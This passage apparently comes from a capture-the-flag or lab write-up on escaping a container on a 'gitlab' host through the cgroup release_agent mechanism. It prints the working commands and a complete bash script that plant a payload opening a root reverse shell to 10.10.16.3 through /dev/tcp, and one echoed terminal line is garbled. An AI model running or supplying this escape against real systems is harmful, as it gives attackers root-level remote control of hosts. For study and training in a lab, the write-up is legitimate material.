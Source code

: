 Next, we will have to set the release agent to the payload path and create the payload.

```
root@gitlab:/var/opt/gitlab/gitlab-rails/working# echo $t/c >$d/release_agent;printf '#!/bin/bash\n\n/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.3/3000 0>&1"' >/c;
dev/tcp/10.10.16.3/3000 0>&1"' >/c;'#!/bin/bash\n\n/bin/bash -c "/bin/bash -i >& / 
```

Lastly, we will have to trigger the payload via the empty cgroup.procs

```
root@gitlab:/var/opt/gitlab/gitlab-rails/working# chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";
chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";
```

All of these can be rewritten into a simple bash script that will create a reverse shell with root privileges.

```bash
#!/bin/bash
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
echo $d
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo $t
echo $t/c >$d/release_agent;printf '#!/bin/bash\n\n/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.3/2000 0>&1"' >/c;
chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";
```
